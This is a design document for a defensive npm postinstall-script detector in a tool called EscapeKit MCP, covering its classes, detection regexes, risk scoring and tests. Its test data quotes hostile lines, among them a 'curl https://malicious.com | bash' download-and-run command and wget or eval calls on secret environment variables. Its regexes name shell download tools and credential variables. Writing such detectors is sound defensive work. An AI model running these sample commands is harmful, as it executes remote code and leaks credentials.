



# Design Document: Security Supply Chain Analysis

## Overview

The Security Supply Chain Analysis feature adds malicious postinstall script detection to EscapeKit MCP. This capability protects developers from supply chain attacks by analyzing npm installation scripts for suspicious patterns, calculating risk scores, and generating actionable security warnings.

The implementation centers on the PostInstallDetector component, which integrates with the existing CodeAnalyzer infrastructure. The detector analyzes both direct package.json scripts and transitive dependency scripts by querying the NPMRegistry. Pattern detection uses regex-based heuristics to identify network requests, environment variable access, code execution, obfuscation, and file system operations.

This design follows the existing EscapeKit architecture patterns: detector classes for pattern matching, integration through CodeAnalyzer, and Issue objects for reporting. The feature is opt-in via the enableSecurityAnalysis flag to allow validation before default enablement.

## Architecture

### Component Overview



### Class Structure

**PostInstallDetector**
- Primary security analysis component
- Orchestrates parsing, pattern detection, scoring, and issue generation
- Integrates with NPMRegistry for dependency analysis
- Methods:
  - `analyze(packageJsonPath: string, options: SecurityAnalysisOptions): Promise<Issue[]>`
  - `analyzeScript(script: string, context: ScriptContext): ScriptAnalysisResult`
  - `analyzeDependencies(dependencies: string[], checkRegistry: boolean): Promise<Issue[]>`

**PackageJsonParser**
- Parses package.json files into structured objects
- Extracts scripts, dependencies, and devDependencies
- Methods:
  - `parse(content: string): PackageJson`
  - `extractScripts(packageJson: PackageJson): InstallationScript[]`
  - `extractDependencies(packageJson: PackageJson): string[]`

**PatternMatcher**
- Detects suspicious code patterns using regex
- Maintains pattern definitions and legitimate whitelists
- Methods:
  - `detectPatterns(script: string): DetectedPattern[]`
  - `isLegitimatePattern(script: string): boolean`
  - `getPatternType(pattern: string): PatternType`

**RiskScorer**
- Calculates risk scores based on detected patterns
- Applies scoring weights and caps at 100
- Determines severity levels
- Methods:
  - `calculateScore(patterns: DetectedPattern[], metadata: PackageMetadata): number`
  - `getSeverity(score: number): ErrorSeverity`
  - `applyRecencyBonus(score: number, publishDate: Date): number`

**IssueGenerator**
- Creates Security_Issue objects from analysis results
- Formats messages and descriptions
- Generates remediation suggestions
- Methods:
  - `createIssue(result: ScriptAnalysisResult, context: IssueContext): Issue`
  - `formatMessage(score: number, context: IssueContext): string`
  - `generateSuggestions(patterns: DetectedPattern[]): string`

### Data Flow



## Components and Interfaces


### PostInstallDetector Interface

```typescript
interface SecurityAnalysisOptions {
  checkNPMRegistry?: boolean;
  enableSecurityAnalysis?: boolean;
}

interface ScriptContext {
  scriptType: 'postinstall' | 'preinstall' | 'install';
  source: 'package.json' | 'dependency';
  packageName?: string;
  publishDate?: Date;
}

interface ScriptAnalysisResult {
  script: string;
  patterns: DetectedPattern[];
  riskScore: number;
  severity: ErrorSeverity;
  context: ScriptContext;
}

class PostInstallDetector {
  constructor(
    private registry: NPMRegistry,
    private parser: PackageJsonParser,
    private patternMatcher: PatternMatcher,
    private riskScorer: RiskScorer,
    private issueGenerator: IssueGenerator
  ) {}

  async analyze(
    packageJsonPath: string,
    options: SecurityAnalysisOptions = {}
  ): Promise<Issue[]> {
    // Main analysis entry point
  }

  analyzeScript(script: string, context: ScriptContext): ScriptAnalysisResult {
    // Analyze a single script
  }

  private async analyzeDependencies(
    dependencies: string[],
    checkRegistry: boolean
  ): Promise<Issue[]> {
    // Analyze dependency scripts
  }
}
```


### PackageJsonParser Interface

```typescript
interface PackageJson {
  name?: string;
  version?: string;
  scripts?: Record<string, string>;
  dependencies?: Record<string, string>;
  devDependencies?: Record<string, string>;
  [key: string]: unknown;
}

interface InstallationScript {
  type: 'postinstall' | 'preinstall' | 'install';
  content: string;
}

class PackageJsonParser {
  parse(content: string): PackageJson {
    // Parse JSON and validate structure
  }

  extractScripts(packageJson: PackageJson): InstallationScript[] {
    // Extract installation scripts
  }

  extractDependencies(packageJson: PackageJson): string[] {
    // Extract all dependency names
  }

  serialize(packageJson: PackageJson): string {
    // Serialize back to JSON string
  }
}
```

### PatternMatcher Interface

```typescript
type PatternType = 
  | 'network_request'
  | 'env_access'
  | 'file_system'
  | 'code_execution'
  | 'obfuscation';

interface DetectedPattern {
  type: PatternType;
  pattern: string;
  match: string;
  position: { line: number; column: number };
}

interface PatternDefinition {
  type: PatternType;
  regex: RegExp;
  weight: number;
}


class PatternMatcher {
  private patterns: PatternDefinition[];
  private legitimatePatterns: RegExp[];

  detectPatterns(script: string): DetectedPattern[] {
    // Detect all suspicious patterns
  }

  isLegitimatePattern(script: string): boolean {
    // Check against whitelist
  }

  getPatternType(pattern: string): PatternType {
    // Determine pattern type
  }
}
```

### RiskScorer Interface

```typescript
interface ScoringWeights {
  network_request: 30;
  env_access: 40;
  code_execution: 25;
  obfuscation: 20;
  file_system: 15;
  recent_publish: 10;
}

interface PackageMetadata {
  name: string;
  version: string;
  publishDate: Date;
  scripts?: Record<string, string>;
}

class RiskScorer {
  private weights: ScoringWeights;

  calculateScore(
    patterns: DetectedPattern[],
    metadata?: PackageMetadata
  ): number {
    // Calculate risk score with capping at 100
  }

  getSeverity(score: number): ErrorSeverity {
    // Map score to severity: >70=error, 40-70=warning, <40=info
  }

  applyRecencyBonus(score: number, publishDate: Date): number {
    // Add 10 points if published < 7 days ago
  }
}
```


### IssueGenerator Interface

```typescript
interface IssueContext {
  source: 'package.json' | 'dependency';
  packageName?: string;
  file?: string;
}

class IssueGenerator {
  createIssue(
    result: ScriptAnalysisResult,
    context: IssueContext
  ): Issue {
    // Create Issue object with type 'postinstall_risk'
  }

  formatMessage(score: number, context: IssueContext): string {
    // Format message including risk score
  }

  generateSuggestions(patterns: DetectedPattern[]): string {
    // Generate prioritized remediation suggestions
  }

  private getSuggestionForPattern(type: PatternType): string {
    // Get specific suggestion text for pattern type
  }
}
```

## Data Models

### Extended Issue Type

The existing `IssueType` in schemas.ts will be extended:

```typescript
export type IssueType =
  | 'ghost_import'
  | 'mock_api'
  | 'unrealistic_assumption'
  | 'security_risk'
  | 'infinite_loop'
  | 'postinstall_risk';  // NEW
```

### Extended AnalysisOptions

The CodeAnalyzer's AnalysisOptions interface will be extended:

```typescript
interface AnalysisOptions {
  sandboxType?: string;
  language?: string;
  checkNPMRegistry?: boolean;
  enableSecurityAnalysis?: boolean;  // NEW - defaults to false
}
```


### Pattern Detection Heuristics

#### Suspicious Pattern Definitions

```typescript
const SUSPICIOUS_PATTERNS: PatternDefinition[] = [
  // Network Requests (weight: 30)
  {
    type: 'network_request',
    regex: /\b(curl|wget)\s+/gi,
    weight: 30,
  },
  {
    type: 'network_request',
    regex: /\b(fetch|axios|request|http\.get|https\.get)\s*\(/gi,
    weight: 30,
  },
  
  // Environment Variable Access (weight: 40)
  {
    type: 'env_access',
    regex: /process\.env\.(AWS_[A-Z_]+|GITHUB_TOKEN|NPM_TOKEN|DOCKER_|KUBE_|SECRET_|API_KEY|TOKEN)/gi,
    weight: 40,
  },
  
  // Code Execution (weight: 25)
  {
    type: 'code_execution',
    regex: /\b(eval|Function)\s*\(/gi,
    weight: 25,
  },
  {
    type: 'code_execution',
    regex: /child_process\.(exec|spawn|execSync|spawnSync)/gi,
    weight: 25,
  },
  
  // Obfuscation (weight: 20)
  {
    type: 'obfuscation',
    regex: /\b(atob|btoa|Buffer\.from\([^,]+,\s*['"]base64['"]\))/gi,
    weight: 20,
  },
  {
    type: 'obfuscation',
    regex: /\\x[0-9a-fA-F]{2}/g,
    weight: 20,
  },
  
  // File System Operations (weight: 15)
  {
    type: 'file_system',
    regex: /fs\.(writeFile|appendFile|writeFileSync|appendFileSync)/gi,
    weight: 15,
  },
];
```


#### Legitimate Pattern Whitelist

```typescript
const LEGITIMATE_PATTERNS: RegExp[] = [
  // Build tools
  /\b(tsc|webpack|rollup|esbuild|vite)\b/i,
  
  // Native compilation
  /\bnode-gyp\b/i,
  /\bprebuild-install\b/i,
  
  // Package managers
  /\b(npm|yarn|pnpm)\s+(install|ci)\b/i,
  
  // Common build scripts
  /\bbuild\b/i,
  /\bcompile\b/i,
  
  // Husky git hooks
  /\bhusky\s+install\b/i,
];
```

#### Scoring Algorithm

```typescript
function calculateRiskScore(
  patterns: DetectedPattern[],
  metadata?: PackageMetadata
): number {
  let score = 0;
  
  // Sum pattern weights (using Set to avoid double-counting same type)
  const patternTypes = new Set(patterns.map(p => p.type));
  for (const type of patternTypes) {
    score += SCORING_WEIGHTS[type];
  }
  
  // Apply recency bonus
  if (metadata?.publishDate) {
    const daysSincePublish = 
      (Date.now() - metadata.publishDate.getTime()) / (1000 * 60 * 60 * 24);
    if (daysSincePublish < 7) {
      score += 10;
    }
  }
  
  // Cap at 100
  return Math.min(score, 100);
}

function getSeverity(score: number): ErrorSeverity {
  if (score > 70) return 'error';
  if (score >= 40) return 'warning';
  return 'info';
}
```


#### Legitimate Pattern Detection

When legitimate patterns are detected, the risk score is reduced and a note is added to the issue description:

```typescript
function adjustForLegitimatePatterns(
  script: string,
  score: number,
  description: string
): { score: number; description: string } {
  for (const pattern of LEGITIMATE_PATTERNS) {
    if (pattern.test(script)) {
      // Reduce score by 20% for legitimate build tools
      score = Math.floor(score * 0.8);
      description += '\n\nNote: This may be a legitimate build script.';
      break;
    }
  }
  return { score, description };
}
```

## Correctness Properties

*A property is a characteristic or behavior that should hold true across all valid executions of a system-essentially, a formal statement about what the system should do. Properties serve as the bridge between human-readable specifications and machine-verifiable correctness guarantees.*

### Property 1: Installation Script Detection

*For any* package.json file containing installation scripts (postinstall, preinstall, or install), the PostInstallDetector shall identify all such scripts and extract their complete content.

**Validates: Requirements 1.1, 1.2, 1.3, 1.5**

### Property 2: Pattern Detection Completeness

*For any* installation script containing suspicious patterns (network requests, environment variable access, file system operations, code execution, or obfuscation), the PatternMatcher shall detect and flag all instances of each pattern type.

**Validates: Requirements 2.1, 2.2, 2.3, 2.4, 2.5, 2.6, 2.7, 2.8, 2.9, 2.10**


### Property 3: Risk Score Calculation

*For any* set of detected patterns, the RiskScorer shall calculate a risk score by summing the weights of unique pattern types, applying recency bonuses when applicable, and capping the result at 100.

**Validates: Requirements 3.2, 3.3, 3.4, 3.5, 3.6, 3.7**

### Property 4: Severity Assignment

*For any* risk score, the RiskScorer shall assign the correct severity level: "error" for scores > 70, "warning" for scores 40-70, and "info" for scores < 40.

**Validates: Requirements 3.8, 3.9, 3.10**

### Property 5: Dependency Extraction

*For any* valid package.json file, the PackageJsonParser shall extract all dependency names from both the "dependencies" and "devDependencies" fields.

**Validates: Requirements 4.1, 4.2**

### Property 6: Dependency Analysis Consistency

*For any* dependency with installation scripts, the PostInstallDetector shall analyze those scripts using the same pattern detection logic as direct package.json scripts.

**Validates: Requirements 4.3, 4.4, 4.5**

### Property 7: Recency Detection

*For any* package with metadata, when the publish date is less than 7 days from the current date, the RiskScorer shall increase the risk score by 10 points and include the publish date in the issue description.

**Validates: Requirements 5.1, 5.2, 5.3, 5.4**

### Property 8: Issue Structure

*For any* detected suspicious script, the IssueGenerator shall create an Issue with type "postinstall_risk", including the risk score in the message, all detected patterns in the description, remediation suggestions, the correct file location, autoFixable set to false, and a unique ID.

**Validates: Requirements 6.1, 6.2, 6.3, 6.4, 6.5, 6.6, 6.7, 6.8**


### Property 9: CodeAnalyzer Integration

*For any* analysis with enableSecurityAnalysis set to true, the CodeAnalyzer shall invoke PostInstallDetector, include all security issues in the AnalysisResult, and increment the securityRisks counter for each postinstall_risk issue.

**Validates: Requirements 7.2, 7.3, 7.5**

### Property 10: Suggestion Generation

*For any* set of detected patterns, the IssueGenerator shall combine remediation suggestions into a prioritized list, with each pattern type contributing its specific suggestion text.

**Validates: Requirements 8.6**

### Property 11: Network Error Handling

*For any* dependency where NPMRegistry queries fail due to network errors, the PostInstallDetector shall create a warning-level issue marking the package as "unverified" and continue analyzing remaining dependencies.

**Validates: Requirements 9.2, 9.4**

### Property 12: Package.json Round-Trip

*For any* valid PackageJson object, serializing then parsing shall produce an equivalent object with all fields preserved (scripts, dependencies, devDependencies).

**Validates: Requirements 10.3, 10.5**

### Property 13: Legitimate Pattern Recognition

*For any* script containing legitimate build tool patterns (node-gyp, tsc, webpack), the RiskScorer shall reduce the risk score and the IssueGenerator shall add a note indicating "This may be a legitimate build script" to the description.

**Validates: Requirements 11.3, 11.4**

### Property 14: Opt-In Behavior

*For any* analysis where enableSecurityAnalysis is false or undefined, the CodeAnalyzer shall skip PostInstallDetector invocation; when true, it shall invoke the detector.

**Validates: Requirements 12.2, 12.3**


## Error Handling

### Error Handling Strategy

The PostInstallDetector follows a graceful degradation approach where individual failures do not block the entire analysis:

1. **Package.json Parsing Errors**
   - Log error with AnalysisError
   - Return empty Issue array
   - Allow CodeAnalyzer to continue with other analysis

2. **NPMRegistry Query Failures**
   - Log error for specific package
   - Create warning-level "unverified" issue for affected package
   - Continue analyzing remaining dependencies
   - Respect existing NPMRegistry retry logic

3. **Script Extraction Failures**
   - Log error with script context
   - Skip the problematic script
   - Continue with remaining scripts

4. **Pattern Detection Errors**
   - Log regex execution errors
   - Return empty pattern array for that script
   - Continue analysis with zero patterns detected

### Error Flow Diagram




### Integration with Existing Error Handling

The PostInstallDetector uses the existing AnalysisError class from errors.ts:

```typescript
try {
  const packageJson = this.parser.parse(content);
} catch (error) {
  this.logger.error('Failed to parse package.json', { error });
  throw new AnalysisError('Failed to parse package.json', {
    error: error instanceof Error ? error.message : String(error),
    operation: 'parse_package_json',
    file: packageJsonPath,
  });
}
```

The CodeAnalyzer wraps PostInstallDetector calls in try-catch to prevent security analysis failures from blocking other analysis:

```typescript
// In CodeAnalyzer.analyze()
if (options.enableSecurityAnalysis) {
  try {
    const securityIssues = await this.postInstallDetector.analyze(
      packageJsonPath,
      options
    );
    allIssues.push(...securityIssues);
  } catch (error) {
    this.logger.error('Security analysis failed', { error });
    // Continue with other analysis
  }
}
```

## Testing Strategy

### Dual Testing Approach

The implementation requires both unit tests and property-based tests for comprehensive coverage:

**Unit Tests** focus on:
- Specific examples from real-world attacks (Shai-Hulud patterns)
- Edge cases (empty scripts, no dependencies, invalid JSON)
- Integration points (CodeAnalyzer invocation, NPMRegistry queries)
- Error conditions (network failures, parsing errors)
- Specific suggestion text validation

**Property-Based Tests** focus on:
- Universal properties across all inputs
- Pattern detection completeness
- Score calculation correctness
- Round-trip parsing
- Comprehensive input coverage through randomization


### Property-Based Testing Configuration

**Library Selection**: Use `fast-check` for TypeScript/JavaScript property-based testing

**Test Configuration**:
- Minimum 100 iterations per property test
- Each test references its design document property
- Tag format: `Feature: security-supply-chain, Property {number}: {property_text}`

**Example Property Test Structure**:

```typescript
import fc from 'fast-check';

describe('PostInstallDetector Properties', () => {
  // Feature: security-supply-chain, Property 1: Installation Script Detection
  it('detects all installation script types', () => {
    fc.assert(
      fc.property(
        fc.record({
          scripts: fc.record({
            postinstall: fc.option(fc.string()),
            preinstall: fc.option(fc.string()),
            install: fc.option(fc.string()),
          }),
        }),
        (packageJson) => {
          const scripts = parser.extractScripts(packageJson);
          const expectedCount = 
            (packageJson.scripts.postinstall ? 1 : 0) +
            (packageJson.scripts.preinstall ? 1 : 0) +
            (packageJson.scripts.install ? 1 : 0);
          return scripts.length === expectedCount;
        }
      ),
      { numRuns: 100 }
    );
  });

  // Feature: security-supply-chain, Property 3: Risk Score Calculation
  it('calculates risk scores correctly with capping', () => {
    fc.assert(
      fc.property(
        fc.array(fc.constantFrom(...PATTERN_TYPES)),
        (patternTypes) => {
          const patterns = patternTypes.map(type => ({ type }));
          const score = riskScorer.calculateScore(patterns);
          return score >= 0 && score <= 100;
        }
      ),
      { numRuns: 100 }
    );
  });
});
```


### Unit Testing Strategy

**Test Organization**:
- `PostInstallDetector.test.ts` - Main detector logic
- `PackageJsonParser.test.ts` - Parsing and serialization
- `PatternMatcher.test.ts` - Pattern detection
- `RiskScorer.test.ts` - Score calculation
- `IssueGenerator.test.ts` - Issue creation
- `CodeAnalyzer.integration.test.ts` - Integration with CodeAnalyzer

**Key Unit Test Cases**:

1. **Popular Package Validation** (Requirement 11.1)
   ```typescript
   it('produces zero false positives for axios', async () => {
     const axiosPackageJson = await fetchRealPackageJson('axios');
     const issues = await detector.analyze(axiosPackageJson);
     expect(issues).toHaveLength(0);
   });
   ```

2. **Specific Suggestion Text** (Requirements 8.1-8.5)
   ```typescript
   it('suggests reviewing domains for network patterns', () => {
     const patterns = [{ type: 'network_request', ... }];
     const suggestion = issueGenerator.generateSuggestions(patterns);
     expect(suggestion).toContain('Review the external domains');
   });
   ```

3. **Error Handling Examples** (Requirements 9.1-9.3)
   ```typescript
   it('returns empty array for invalid JSON', async () => {
     const issues = await detector.analyze('invalid json');
     expect(issues).toEqual([]);
   });
   ```

4. **Opt-In Behavior** (Requirement 12.4)
   ```typescript
   it('defaults to disabled when option is undefined', async () => {
     const result = await codeAnalyzer.analyze(code, {});
     expect(result.summary.securityRisks).toBe(0);
   });
   ```

### Test Data

**Malicious Pattern Examples** (from real attacks):
- Shai-Hulud: `curl https://malicious.com | bash`
- postmark-mcp: `eval(Buffer.from(process.env.SECRET, 'base64'))`
- GlassWorm: `child_process.exec('wget ' + process.env.AWS_SECRET)`

**Legitimate Pattern Examples**:
- TypeScript: `tsc && tsc --project tsconfig.esm.json`
- node-gyp: `node-gyp rebuild`
- Husky: `husky install`


## Integration Points

### CodeAnalyzer Modifications

The CodeAnalyzer class requires the following modifications:

1. **Add PostInstallDetector dependency**:
   ```typescript
   export class CodeAnalyzer {
     private postInstallDetector: PostInstallDetector;
     
     constructor() {
       // ... existing dependencies
       this.postInstallDetector = new PostInstallDetector(
         this.registry,
         new PackageJsonParser(),
         new PatternMatcher(),
         new RiskScorer(),
         new IssueGenerator()
       );
     }
   }
   ```

2. **Extend AnalysisOptions interface**:
   ```typescript
   interface AnalysisOptions {
     sandboxType?: string;
     language?: string;
     checkNPMRegistry?: boolean;
     enableSecurityAnalysis?: boolean;  // NEW
   }
   ```

3. **Add security analysis in analyze() method**:
   ```typescript
   async analyze(code: string, options: AnalysisOptions = {}): Promise<AnalysisResult> {
     // ... existing parsing and detection
     
     // Security analysis (opt-in)
     if (options.enableSecurityAnalysis) {
       try {
         const securityIssues = await this.postInstallDetector.analyze(
           'package.json',  // Assume package.json in project root
           { checkNPMRegistry: options.checkNPMRegistry }
         );
         allIssues.push(...securityIssues);
       } catch (error) {
         this.logger.error('Security analysis failed', { error });
         // Continue with other analysis
       }
     }
     
     // ... rest of analysis
   }
   ```

4. **Update calculateSummary() to count security risks**:
   ```typescript
   private calculateSummary(issues: Issue[]): AnalysisSummary {
     const summary: AnalysisSummary = {
       // ... existing counters
       securityRisks: 0,
     };
     
     for (const issue of issues) {
       switch (issue.type) {
         // ... existing cases
         case 'postinstall_risk':
           summary.securityRisks++;
           break;
       }
     }
     
     return summary;
   }
   ```


### NPMRegistry Integration

The PostInstallDetector leverages the existing NPMRegistry service without modifications:

**Usage Pattern**:
```typescript
async analyzeDependencies(
  dependencies: string[],
  checkRegistry: boolean
): Promise<Issue[]> {
  if (!checkRegistry || dependencies.length === 0) {
    return [];
  }
  
  const issues: Issue[] = [];
  
  // Use existing checkPackages method
  const packageResults = await this.registry.checkPackages(dependencies);
  
  for (const [name, info] of packageResults.entries()) {
    if (info.exists && info.metadata?.scripts) {
      // Extract installation scripts from metadata
      const scripts = this.extractInstallationScripts(info.metadata.scripts);
      
      for (const script of scripts) {
        const result = this.analyzeScript(script.content, {
          scriptType: script.type,
          source: 'dependency',
          packageName: name,
          publishDate: info.metadata.publishDate,
        });
        
        if (result.patterns.length > 0) {
          const issue = this.issueGenerator.createIssue(result, {
            source: 'dependency',
            packageName: name,
          });
          issues.push(issue);
        }
      }
    } else if (!info.exists && info.status === 'UNVERIFIED_NETWORK_ERROR') {
      // Create warning for unverified packages
      issues.push({
        id: generateId('issue'),
        type: 'postinstall_risk',
        severity: 'warning',
        location: { file: 'package.json', line: 0, column: 0 },
        message: `Unable to verify package: ${name}`,
        description: 'Network error prevented security analysis of this dependency.',
        suggestion: 'Retry analysis when network is stable.',
        autoFixable: false,
      });
    }
  }
  
  return issues;
}
```

**NPMRegistry Features Used**:
- `checkPackages()` - Batch package verification
- Built-in caching - Reduces redundant queries
- Retry logic - Handles transient network failures
- Status codes - Distinguishes NOT_FOUND from UNVERIFIED_NETWORK_ERROR


### MCP Tool Handler Integration

The analyze tool handler in `src/tools/analyze.ts` requires updates to expose the enableSecurityAnalysis option:

```typescript
// In analyze.ts tool handler
export async function analyzeCode(params: {
  code: string;
  sandboxType?: string;
  language?: string;
  checkNPMRegistry?: boolean;
  enableSecurityAnalysis?: boolean;  // NEW
}): Promise<MCPResponse<AnalysisResult>> {
  try {
    const analyzer = new CodeAnalyzer();
    const result = await analyzer.analyze(params.code, {
      sandboxType: params.sandboxType,
      language: params.language,
      checkNPMRegistry: params.checkNPMRegistry ?? true,
      enableSecurityAnalysis: params.enableSecurityAnalysis ?? false,  // Default to false
    });
    
    return createSuccessResponse(result);
  } catch (error) {
    return createErrorResponse(
      error instanceof Error ? error.message : 'Analysis failed',
      'ANALYSIS_ERROR'
    );
  }
}
```

### File System Integration

The PostInstallDetector needs to read package.json from the file system:

```typescript
import { readFile } from 'fs/promises';
import { resolve } from 'path';

async analyze(
  packageJsonPath: string,
  options: SecurityAnalysisOptions = {}
): Promise<Issue[]> {
  try {
    // Read package.json file
    const absolutePath = resolve(packageJsonPath);
    const content = await readFile(absolutePath, 'utf-8');
    
    // Parse and analyze
    const packageJson = this.parser.parse(content);
    // ... rest of analysis
  } catch (error) {
    this.logger.error('Failed to read package.json', { 
      path: packageJsonPath,
      error 
    });
    throw new AnalysisError('Failed to read package.json', {
      error: error instanceof Error ? error.message : String(error),
      operation: 'read_file',
      file: packageJsonPath,
    });
  }
}
```


## Implementation Considerations

### Performance Optimization

1. **Parallel Dependency Analysis**
   - Use `Promise.all()` for concurrent NPMRegistry queries
   - Leverage existing NPMRegistry caching
   - Batch package queries with `checkPackages()`

2. **Pattern Matching Optimization**
   - Compile regex patterns once at initialization
   - Use Set for pattern type deduplication
   - Short-circuit on legitimate pattern detection

3. **Lazy Loading**
   - Only instantiate PostInstallDetector when enableSecurityAnalysis is true
   - Defer NPMRegistry queries until needed

### Security Considerations

1. **Input Validation**
   - Validate package.json structure before processing
   - Sanitize file paths to prevent directory traversal
   - Limit script content size to prevent DoS

2. **Safe Pattern Matching**
   - Use non-backtracking regex where possible
   - Set regex timeout limits
   - Handle malformed scripts gracefully

3. **Privacy**
   - Do not log sensitive script content
   - Redact environment variable values in logs
   - Respect user's checkNPMRegistry preference

### Backward Compatibility

1. **Opt-In Design**
   - Feature disabled by default (enableSecurityAnalysis: false)
   - Existing analysis workflows unchanged
   - No breaking changes to existing APIs

2. **Schema Extensions**
   - New IssueType added to union type (non-breaking)
   - New optional field in AnalysisOptions (non-breaking)
   - Existing Issue structure unchanged

3. **Error Handling**
   - Security analysis failures do not break existing analysis
   - Graceful degradation maintains backward compatibility


### Extensibility

1. **Pattern Definitions**
   - Patterns defined in configuration objects
   - Easy to add new pattern types
   - Weights adjustable without code changes

2. **Legitimate Pattern Whitelist**
   - Centralized whitelist configuration
   - Can be extended for new build tools
   - User-configurable in future versions

3. **Scoring Algorithm**
   - Pluggable RiskScorer implementation
   - Weights configurable via constructor
   - Support for custom scoring strategies

4. **Issue Generation**
   - Template-based message formatting
   - Extensible suggestion system
   - Support for localization

## Design Decisions and Rationales

### Decision 1: Regex-Based Pattern Detection

**Rationale**: Regex provides fast, flexible pattern matching without requiring full AST parsing. Installation scripts are typically short (< 500 chars), making regex performance acceptable. This approach is simpler than tree-sitter integration and sufficient for the threat model.

**Trade-offs**: 
- Pro: Fast, simple, easy to extend
- Con: May miss complex obfuscation techniques
- Mitigation: Whitelist legitimate patterns to reduce false positives

### Decision 2: Opt-In Feature Flag

**Rationale**: Supply chain analysis is a new capability that needs validation before default enablement. Opt-in allows users to test the feature and provide feedback while maintaining backward compatibility.

**Trade-offs**:
- Pro: Safe rollout, no breaking changes
- Con: Requires user action to enable
- Future: Enable by default after validation period


### Decision 3: Weighted Risk Scoring

**Rationale**: Different pattern types represent different threat levels. Environment variable access (weight: 40) is more dangerous than file system writes (weight: 15). Weighted scoring provides nuanced risk assessment rather than binary "safe/unsafe" classification.

**Trade-offs**:
- Pro: Captures threat severity, prioritizes high-risk patterns
- Con: Weights require tuning based on real-world data
- Mitigation: Weights based on analysis of known attacks (Shai-Hulud, GlassWorm)

### Decision 4: Graceful Error Handling

**Rationale**: Security analysis should enhance the development experience, not block it. Network failures or parsing errors should not prevent code analysis from completing. Graceful degradation ensures reliability.

**Trade-offs**:
- Pro: Robust, reliable, good UX
- Con: May miss security issues if analysis fails
- Mitigation: Log all errors, create warning issues for unverified packages

### Decision 5: Leverage Existing NPMRegistry

**Rationale**: The NPMRegistry service already provides package metadata queries, caching, and retry logic. Reusing this infrastructure avoids duplication and maintains consistency with existing ghost import detection.

**Trade-offs**:
- Pro: Code reuse, consistent behavior, proven reliability
- Con: Dependent on NPMRegistry API stability
